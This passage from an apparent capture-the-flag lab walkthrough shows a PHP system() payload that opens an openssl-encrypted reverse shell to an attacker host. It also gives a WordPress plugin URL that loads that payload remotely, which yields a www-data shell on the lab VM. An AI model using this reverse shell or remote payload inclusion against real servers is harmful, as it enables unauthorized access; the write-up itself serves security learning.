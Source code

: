 - Payload

  The payload also comes from the same repo and it will be placed in the file `/var/www/html/payload.txt`. It contains the following code:

  `system('mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect ATTACKER_MACHINE:4242 > /tmp/s; rm /tmp/s')`

  ![cat of the payload](img/10-catPayload.png)

  The "ATTACKER_MACHINE" needs to be changed to our kali machine, in my case 192.168.56.1.. and the port needs to match the netcat listener above.


<br>

### 7. Using the exploit

   To run the exploit we need to visit the next url on a web browser:

   `http://WEBSITE/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://ATTACKER_HOST/payload.txt`

   The "ATTACKER_MACHINE" needs to be changed to our kali machine, in my case 192.168.56.1.. and "VICTIM_MACHINE to our so simple:1 vm, in my case 192.168.56.111

   Here we can see what happens after visiting the URL:
   
   ![Exploit on web browser result](img/11-exploitWeb.png)

   And if we go back to the ncat terminal we can see that it has established the connection and now we have a shell with the user "www-data":
   
   ![ncat receives the shell](img/12-exploitNcat.png)
   